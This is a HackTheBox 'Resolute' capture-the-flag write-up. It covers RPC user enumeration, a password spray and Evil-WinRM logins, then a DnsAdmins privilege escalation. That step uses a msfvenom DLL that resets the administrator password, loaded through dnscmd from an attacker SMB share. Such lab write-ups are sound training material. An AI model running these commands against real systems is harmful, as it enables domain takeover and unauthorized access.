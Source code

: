 ```yaml
---
title: "Resolute - HTB"
categories: [HackTheBox,Medium]
tags: [HTB,Windows,Medium,RPC,PasswordSpray,DNSAdmin,AD]
mermaid: true
render_with_liquid: false
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Resolute.png
---
```


This is a medium box Windows. We starts enum users through RPC, where It was found a users list. Also It was found a password. Then It is done a Password Spray that allow to find melanie credential. Into in box, we discovered the ryan user credential. He is part of the DnsAdmins group, this group usually has elevated privilege. We explored this and get the Administrator shell.

**Have a good time!**

# Introdution

[https://app.hackthebox.com/machines/Resolute](https://app.hackthebox.com/machines/Resolute)

* **IP:** 10.10.10.169


## Diagram

```mermaid
graph TD
    A[Enumeration] --> |rcpclient| AA(Users list and credential) -->
    B[Exploration] --> |Password Spray| BB[/Melanie/] -->
    C[Post-Exploration] --> |Enum Local| CC[/Ryan user/] --> |DnsAdmin| D
    D((Administrator))
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.169 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.169
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled.png)

## **Port 445 (RPC)**

- `rpcclient -U "" -N 10.10.10.169`
    
    ```bash
    enumdomusers
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%201.png)
    
    I can get information about the users one by one with `queryuser`:
    
    ```bash
    queryuser 0x1f4
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%202.png)
    
    I can also get less information about all users with `querydispinfo`:
    
    ```bash
    querydispinfo
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%203.png)
    
    We found a password in clear: **Welcome123!**
    

# Exploration

**Password Spray**

With the clear password found (**Welcome123!**), we’ll do a Password Spray with the users found.

```bash
crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%204.png)

We can login in SMB through credential:

> User: **melanie**
> 
> Pass: **Welcome123!**


```bash
evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%205.png)

**HABEMUS SHELL!!!**

# Post Exploration

## Melanie → Ryan

A hidden file was found that revelate a credential of **ryan** user.

> User: **ryan**
> 
> Pass: **Serv3r4Admin4cc123!**
> 

```bash
ls -force
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%206.png)

`C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%207.png)

```bash
evil-winrm -i 10.10.10.169 -P 5985 -u ryan -p 'Serv3r4Admin4cc123!'
```

## Ryan → Administrator

### DNSAdmins

```bash
whoami /groups
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%208.png)

We verified that the ryan user is part of the DnsAdmins group, this group usually has elevated privilege. Then we’ll use the dnscmd.exe to execute commands with SYSTEM. The dnscmd will do that the target download an evil DLL into my KALI and run it as a DNS service plugin.

```bash
# Payload DLL
	msfvenom -p windows/x64/exec cmd='net user administrator Senha#123! /domain' -f dll -o perverse.dll

# Smb Server
	impacket-smbserver share . -smb2support

# In target, download it and run a DLL.
	cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.7\share\perverse.dll
	sc.exe stop dns
	sc.exe start dns

# After Administrator password changed, login it.
	impacket-psexec megabank.local/administrator@10.10.10.169
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%209.png)

**HABEMUS ROOT!!!**